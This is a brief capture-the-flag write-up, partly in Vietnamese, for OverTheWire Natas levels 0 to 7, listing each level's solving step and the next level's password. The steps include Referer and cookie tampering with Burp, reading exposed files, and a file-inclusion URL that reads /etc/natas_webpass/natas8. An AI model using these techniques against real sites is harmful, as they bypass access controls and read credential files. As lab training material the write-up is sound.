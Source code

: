 # NATAS WRITE UP
## Natas0
View source 

**user: natas1**

**pass: gtVrDuiDfck831PqWsLEZy5gyDz1clto**
## Natas1
Ctrl + U
**user: natas2**

**pass: ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi**
## Natas2
http://natas2.natas.labs.overthewire.org/files/users.txt

**user: natas3**

**pass: sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14**
## Natas3
http://natas3.natas.labs.overthewire.org/robots.txt

http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt

**user: natas4**

**pass: Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ**
## Natas4
Dùng Burp intercept request để sửa referer thành http://natas5.natas.labs.overthewire.org/

**user: natas5**

**pass: iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq**
## Natas5
Dùng Burp intercept request để sửa cookie thành loggedin=1

**user: natas6**

**pass: aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1**
## Natas6
http://natas6.natas.labs.overthewire.org/includes/secret.inc

Secret: FOEIUWGHFEEUHOFUOIU

**user: natas7**
**pass: 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9**
## Natas7
http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8

**user: natas8**  
**pass: DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe**
## Natas8

